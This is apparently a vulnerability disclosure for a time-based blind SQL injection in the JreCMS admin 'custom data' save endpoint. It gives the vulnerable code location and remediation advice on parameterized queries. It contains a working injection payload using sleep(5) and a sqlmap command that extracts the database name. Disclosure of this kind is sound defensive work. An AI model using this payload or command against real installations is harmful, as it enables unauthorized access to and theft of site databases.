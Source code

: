 # 0x01 vulnerability description
JreCMS rapid development, dynamic addition of fields, custom tags, dynamic creation of database tables and crud data, database backup and recovery, dynamic addition of sites (multi-site function), one-click generation of template code, so that you can easily open to build your own independent website, but also easy secondary development, so that you can quickly build a personalized independent website. Background functions include: global configuration (configuration parameters, model management) Basic content (website information, company information, content columns) Content management (content data, label management) Extended content (message information, rotating pictures, links, custom forms, custom data) Public number management (wechat menu) System management (website management, system roles, system users, system User, system information, etc.) Database management, template management, jrecms directly spliced into SQL statements without filtering the parameters submitted by users, resulting in special characters in the parameters destroying the original logic of SQL statements, attackers can use this vulnerability to execute any SQL statement. Such as querying data, downloading data, writing webshell, executing system commands, and bypassing login restrictions. Hole address: http://ip:8888/admin/div_data/save
The code download address: [https://gitee.com/heyewei/SpringBootCMS.git](https://gitee.com/heyewei/SpringBootCMS.git)
Vulnerability location: After logging in to the system, the custom data of the expanded content, the location of the customer name at the time of creation has sql time blind annotation.
# 0x02 exploit
Vulnerability point
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506585875-37cef292-a8c7-43f5-b254-1c72c67d0202.png#averageHue=%2368a489&clientId=u7c2a7c15-669d-4&from=paste&height=849&id=u6efc4d54&originHeight=973&originWidth=1913&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=80981&status=done&style=none&taskId=udc6c8f14-6e01-4e87-a7d3-b110595cc16&title=&width=1669.527214829628)
 input 1212' AND (if(left(database(),13)='springbootcms',sleep(5),1)) AND 'OHiO'='OHiO
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506611629-a8c1613e-cba5-43c4-802a-2a5c512d993c.png#averageHue=%23263237&clientId=u7c2a7c15-669d-4&from=paste&height=847&id=u071e8ce6&originHeight=971&originWidth=1906&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=66535&status=done&style=none&taskId=udccb77f4-7f51-49a6-be8f-fb3161d8078&title=&width=1663.4181241323947)
Discovery delay 5 seconds
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507708485-3d288f79-52b7-4044-9716-cd4c69d12286.png#averageHue=%23fbfbfb&clientId=u4204e0bc-9665-4&from=paste&height=715&id=u51b5cb09&originHeight=819&originWidth=1897&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=118649&status=done&style=none&taskId=ub877d790-7c51-4737-bbce-1addbc7fe5f&title=&width=1655.5635789502376)
use sqlmap
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506759108-873b7b9b-a332-46d6-9d71-3a8da0de34c2.png#averageHue=%23100e0d&clientId=u7c2a7c15-669d-4&from=paste&height=696&id=u2d56c9fc&originHeight=798&originWidth=1789&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=120106&status=done&style=none&taskId=uda4c6798-30d3-4ff6-932a-b97eaa9bf3c&title=&width=1561.3090367643517)
python sqlmap.py -r 127_0_0_1_8888_20230912161737.req --tamper=space2comment --batch --current-db
sql is injected out of the database name.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507159752-18ebf8bb-589f-4622-8c93-e7e2976b6243.png#averageHue=%230e0d0d&clientId=u4204e0bc-9665-4&from=paste&height=765&id=u1c287bf8&originHeight=877&originWidth=1855&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=155778&status=done&style=none&taskId=u17a93641-0116-471f-a688-0d80e1a0552&title=&width=1618.9090347668375)
# 0x03 repair suggestion
(1) Using precompiled statements, using PDO requires care not to concatenate variables directly into PDO statements. All query statements use the parameterized query interface provided by the database, and parameterized statements use parameters instead of embedding user input variables into the SQL statement. At present, almost all database systems provide parameterized SQL statement execution interface, which can effectively prevent SQL injection attacks.
(2) Special characters entering the database (' "<>&*; Etc.) for escape processing, or encoding conversion.
# 0x04 Website source code
The code is located on line 67 of  src/main/java/com/cms/controller/admin/DivDataController.java
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508026138-9d9a2125-d121-4689-bccf-1bab727f9a12.png#averageHue=%232d2c2b&clientId=u79fd5107-38a1-4&from=paste&height=557&id=uc08618a0&originHeight=638&originWidth=1444&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=115198&status=done&style=none&taskId=u0115bce8-5e44-4230-9a36-b91115905f5&title=&width=1260.2181381149937)
Break point on line 70
It can be seen that 74 lines receive input content and execute insert statements using related methods without filtering or other related operations.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508334670-ab210cdc-74fe-47c9-babe-e13dd54c33e5.png#averageHue=%23372b2a&clientId=ua60f461a-ae5b-4&from=paste&height=389&id=u5dee2983&originHeight=446&originWidth=1461&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=144816&status=done&style=none&taskId=u9c256ebd-1264-4293-ba0e-23430fee644&title=&width=1275.0545012368461)

